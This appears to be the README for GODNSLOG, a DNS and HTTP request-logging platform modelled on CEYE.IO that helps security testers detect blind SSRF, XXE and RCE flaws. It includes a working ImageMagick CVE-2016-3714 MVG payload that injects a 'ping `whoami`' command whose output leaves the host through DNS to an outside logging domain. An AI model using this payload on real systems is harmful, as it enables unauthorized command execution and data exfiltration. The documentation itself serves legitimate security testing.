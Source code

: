 # 简介

GODNS功能特性:
- 多用户
- DNSLOG
- HTTPLOG 记录
- DNS Rebinding
- 记录结果推送

CEYE.IO platform, which monitoring DNS queries and HTTP requests through its own DNS server and HTTP server, it can also create custom files as online payloads. It can help security researchers collect information when testing vulnerabilities (e.g. SSRF/XXE/RFI/RCE).

每一个`GODNSLOG`用户会分配一个唯一的域名，域名前缀为`shortId`是godnslog平台的唯一用户标识。 `安全设置`页面中如下图

![](basic-security.png)

`bkkpdcy7lo84.godnslog.com`是给当前用户分配的唯一域名，`bkkpdcy7lo84`为`shortId`区分用户, 三级域名`*.bkkpdcy7lo84.godnslog.com`下所有DNS请求记录均会被记录下来，`*`字段由用户自定义，建议跟扫描ID对应起来，用来关联扫描结果。 


GODNSLOG在设计中大量参考了[CEYE.IO](http://ceye.io)，包括本文档的内容也是，在此向`CEYE.IO`平台致敬。

## DNS LOG功能

DNS queries resolve in a number of different ways. In this case, CEYE.IO platform provide a dnsserver to resolve domain - ceye.io. Its nameserver address is set to own server IP, therefore all DNS queries about domain - ceye.io will be sent to own DNS server eventually.

For example, use nslookup to query dnsquery.test.b182oj.ceye.io in terminal, and you will found this querying in record page: 

![](https://images.seebug.org/ceye/dns-query-1.png)

The Remote column recording client ip address, Query Name column recoding domain name client queried, UPDate column show the last time queried, and Count column show how many times querying for this domain. 

![](https://images.seebug.org/ceye/dns-query-2.png)

Also, there is all records detail about b182oj.ceye.io or *.b182oj.ceye.io DNS queries in DNS queries page. In this page, You can clearly or export these records.

CVE-2016–3714 - the RCE vulnerability in ImageMagick, influencing many applications used this componment, but in this case, may be there is no feedback when testing this vulnerability, because of ImageMagick couldn't return any information usually. With CEYE.IO platform, you can send Payload with a specail mark to collect the command execution result returned.

e.g. (cve-2016-3714.mvg)

  push graphic-context
  viewbox 0 0 640 480
  fill 'url(https://example.com/"|ping `whoami`.rce.imagemagick.b182oj.ceye.io")'
  pop graphic-context

whoami will be executed in linux system if this host is vulnerable, and padding its value with .rce.imagemagick.b182oj.ceye.io, ping command will be executed, you will found the result in DNS queries page if succeed: 

![](https://images.seebug.org/ceye/dns-query-3.png)


DNSLOG 记录内容包含以下字段：
- domain
- IP
- 记录时间


## HTTP LOG功能

GODNSLOG 的`/log/`接口提供了HTTPLOG的功能，访问`http://*.{shortId}.godnslog.com/log/?p=httptest`的记录都会被记录下来

记录内容包含以下字段:

- IP
- Method
- URL
- User-Agent
- Content-Type 类型
- Data body数据
- 记录时间

![](https://images.seebug.org/ceye/http-request-1.png)


## 致谢

[CEYE.IO](http://ceye.io)
[dnslog](https://github.com/fanjq99/dnslog)
